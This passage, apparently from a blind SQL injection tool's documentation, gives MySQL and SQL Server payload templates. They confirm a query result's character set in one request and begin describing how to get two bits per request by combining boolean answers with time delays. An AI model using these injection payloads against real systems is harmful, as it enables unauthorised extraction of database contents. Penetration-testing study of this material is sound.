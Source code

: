 `MySQL`
```sql
CASE WHEN (xxx) NOT REGEXP '[^0123456789ABCDEF]' THEN 1 ELSE 0 END
```

`SQL Server`
```sql
CASE WHEN (xxx) NOT LIKE'%[^0123456789ABCDEF]%' THEN 1 ELSE 0 END
```
Where `(xxx)` is the query we want to make and `0123456789ABCDEF` is the character set we wish to check against.

This can be extended to check a character set against all values in a query result set in a single request:
`MySQL`
```sql
CASE WHEN (
  SELECT SUM(sum_result) FROM (
    SELECT 1 as sum_result from (
      (xxx)
    ) AS x
    WHERE (yyy) REGEXP '[^0123456789ABCDEF]'
  ) AS y
) IS NULL THEN 1 ELSE 0 END
```

`SQL Server`
```sql
CASE WHEN (
  SELECT SUM(sum_result) FROM (
    SELECT 1 as sum_result FROM (
      (xxx)
    ) AS x
    WHERE (yyy) LIKE '%[^0123456789ABCDEF]%'
  ) AS y
) IS NULL THEN 1 ELSE 0 END
```
Where `(xxx)` is the query we want to make, `(yyy)` is the column name we are selecting and `0123456789ABCDEF` is the character set we wish to check against. Combining character set reduction and confirmation can efficiently define a reduced character set which significantly reduces the number of requests required to extract the result data.

## Multi bit requests
### Extracting 2 bits of information
Typically with blind SQL injection we extract one bit of information per request, namely true or false. Further bits of information can often be extracted by introducing response delays through SQL sleep functions.

Combining the two bits of information from boolean results and time delays we can receive four possible results for each request:
* False result with no delay (00)
* True result with no delay (01)
* False result with delay (10)
* True result with delay (11)
